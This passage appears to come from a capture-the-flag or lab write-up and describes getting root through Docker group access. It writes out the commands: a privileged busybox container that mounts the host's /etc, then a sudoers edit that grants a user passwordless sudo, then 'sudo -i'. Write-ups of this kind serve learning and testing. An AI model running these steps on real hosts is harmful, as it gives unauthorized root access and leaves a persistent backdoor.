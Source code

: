 However I wanted to get actual root on the machine, so I mounted the etc folder: `docker run --privileged -v /etc:/tmp -ti busybox`

Then I used `vi sudoers` and added `dusk    ALL=(ALL) NOPASSWD:ALL` under www-data's sudoer entry, and saved with `:wq!` (the exclamation because it was readonly). 

Back on the host, `sudo -i` now gave me root :)
